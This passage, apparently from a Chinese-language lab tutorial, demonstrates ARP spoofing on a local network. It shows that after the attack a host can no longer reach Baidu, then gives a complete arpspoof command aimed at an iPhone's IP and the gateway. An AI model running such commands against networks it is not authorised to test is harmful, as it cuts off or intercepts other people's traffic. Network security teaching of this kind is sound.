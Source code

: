 #### 2.1.3.1. 查看效果

可以看到，我在测试开始的时候去ping百度还是ok的，但是开启攻击后，再去ping百度就无法访问了。

![image-20230812173611270](assets/image-20230812173611270-17299575995236.png)

### 2.1.4. 攻击IPhone

这里也是同样的手法。

```
arpspoof -i eth0 -t 192.168.2.20(目标IP) 192.168.2.1(网关IP)
```

![image-20230812174112724](assets/image-20230812174112724-17299575995234.png)

